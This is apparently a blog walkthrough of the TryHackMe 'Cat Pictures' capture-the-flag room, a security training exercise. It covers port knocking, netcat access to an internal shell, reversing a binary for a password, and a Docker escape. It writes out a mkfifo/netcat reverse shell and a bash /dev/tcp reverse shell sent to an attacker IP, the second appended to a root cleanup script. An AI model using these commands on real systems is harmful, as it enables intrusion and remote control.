 ```yaml
---
layout: post
title: Walkthrough - Cat Pictures
published: true
---
```


Security, PHPbb, Forum, Docker, Port Knocking. A forum where you can post cute cat pictures!

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

```
PORT     STATE    SERVICE     REASON
21/tcp   filtered ftp         port-unreach ttl 61
22/tcp   open     ssh         syn-ack ttl 61
2375/tcp filtered docker      port-unreach ttl 61
4420/tcp open     nvm-express syn-ack ttl 61
8080/tcp open     http-proxy  syn-ack ttl 60   
```

```
PORT     STATE  SERVICE      VERSION
21/tcp   closed ftp
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
2375/tcp closed docker
4420/tcp open   nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open   http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-title: Cat Pictures - Index page
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
```

Visiting the phpbb on port 8080 and checking the version `/styles/prosilver/style.cfg` we can see version 3.3.3 which has no known exploits

- we can find a user `user` and a possible hint on their post

![](/assets/cat-pictures01.png)

```
POST ALL YOUR CAT PICTURES HERE :)
Knock knock! Magic numbers: 1111, 2222, 3333, 4444
```

- port knocking - let them know we want in `sudo knock '10.10.120.58' 1111 2222 3333 4444`
- and portscan again with nmap to see if they let us in `sudo nmap -sV -sT -sC -O -p21,22,2375,4420,8080 10.10.120.58` and we have open port ftp 21. login and get the note.

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

We can `nc -nv` into the port 4420 and enter the password. maybe possibly get a better shell. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f` and we are there. Still super limited to what we can do here, and after looking around a bit nowhere to go other than the runme file. 

We only have limited options and in order to check out the runme file we have to get it over to our machine. We can do this with netcat. `nc -l -p 1234 > runme` on attacker machine and `nc -w 3 'ip' 1234 < runme` on the target inside the home directory.

- `r2 runme` to open runme in radarem, `aaa` to analaze, `s main` to select the main function, and finally `pdf` to display.

Looking at the file it looks like it needs a password and upon success it will send back a SSH key. Going to open in `ghidra` as well to get another look.

![](/assets/cat-pictures02.png)

Our password for runme is `rebecca` when we enter this the function it creates an ssh key in the user dir.

Using this key we can ssh in as catlover and it turns out to be root!

* * * 

## What is the flag 1?

![](/assets/cat-pictures03.png)

Turns out this is only root for flag 1. We are stuck in a docker container and must get out for the real root flag.

Inside of the `/opt/clean` directory there is a script that cleans the /tmp/ dir. We can edit this file and add a bash reverse shell at the end of it and setup a listener to get another root shell. `bash -i >& /dev/tcp/'10.2.127.225'/6969 0>&1`

* * * 

## What is the root flag?

![](/assets/cat-pictures04.png)

* * * 

